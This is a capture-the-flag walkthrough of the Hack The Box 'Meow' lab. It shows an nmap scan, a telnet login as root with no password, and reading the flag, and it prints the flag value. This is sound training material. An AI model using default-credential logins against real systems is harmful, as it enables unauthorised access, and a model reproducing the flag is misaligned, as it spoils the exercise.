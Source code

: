 # HTB Starting Point: Meow

## Overview

**Meow** is a beginner-friendly machine on Hack The Box (HTB) Starting Point. This walkthrough demonstrates basic enumeration and exploitation using Telnet with default credentials.

---

## Steps

### 1. Connect to the HTB VPN

First, connect to the HTB VPN to access the target machine:

Bash

```
sudo openvpn example.ovpn
```

---

### 2. Spawn the Machine

Start the Meow machine from the HTB portal and note its assigned IP address.

---

### 3. Scan the Target with Nmap

Run an Nmap scan to identify open ports and services:

Bash

```
nmap -Pn <target-ip> -oN nmap.txt
```

**Example Output:**

text

```
PORT   STATE SERVICE
23/tcp open  telnet
```

---

### 4. Connect via Telnet

The scan reveals that **Telnet (port 23)** is open. Connect using Telnet:

Bash

```
telnet <target-ip>
```

---

### 5. Login with Default Credentials

Try logging in with common/default credentials. In this case, `root` works:

text

```
Meow login: root
```

You should now have a shell on the target machine.

---

### 6. Capture the Flag

List the files in the home directory and read the flag:

Bash

```
ls
cat flag.txt
```

**Flag:**

text

```
b40abdfe23665f766f9c61ecba8a4c19
```

---

## Summary

- **Service Exploited:** Telnet (port 23)
- **Credentials Used:** root (no password)
- **Flag:** `b40abdfe23665f766f9c61ecba8a4c19`

---

## Nmap Output (Reference)

<details> <summary>Click to expand</summary>

text

```
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-20 13:07 +0530
Nmap scan report for 10.129.107.104
Host is up (0.59s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 51.71 seconds
```

</details>

---

## Notes

- Always try default credentials on exposed services during initial enumeration.
- Telnet is an insecure protocol and should not be exposed to the internet.

---

**Happy Hacking!**

---
